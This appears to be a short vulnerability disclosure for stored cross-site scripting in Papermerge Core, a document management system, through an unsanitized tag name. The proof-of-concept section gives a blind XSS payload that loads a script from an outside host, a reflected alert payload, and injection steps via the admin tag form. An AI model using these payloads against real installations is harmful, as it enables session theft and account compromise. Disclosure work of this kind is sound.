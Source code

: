 # Description
Papermerge Core contains essential functionality shared among different flavors of Papermerge Document Management System (DMS).

** What is Papermerge? **
Papermerge is an open source document management system (DMS) primarily designed for archiving and retrieving your digital documents. Instead of having piles of paper documents all over your desk, office or drawers - you can quickly scan them and configure your scanner to directly upload to Papermerge DMS. Papermerge DMS on its turn will extract text data from the scanned documents using Optical Character Recognition (OCR) technology the index it and make it searchable. You will be able to quickly find any (scanned!) document using full text search capabilities.
Papermerge is perfect tool to manage PDF, JPEG, TIFF and PNG formats.
# Technical Description
XSS in papermerge DMS via rendering of unsanitized tag name in the input label.
# Proof of Concept

* XSS payloads Used for exploit :
  * blind xss payload : ```"><script src=https://copp.xss.ht></script> ``` <use your own blind payloads>
  * Reflected XSS payload : ```<img src=x onerror=alert(1337)>```

1. setup papermerge in your localhost 
2. move to http://127.0.0.1:8000/admin/tag/add/
3. put the payload in the Name field 
4. BOOM !! XSS triggered
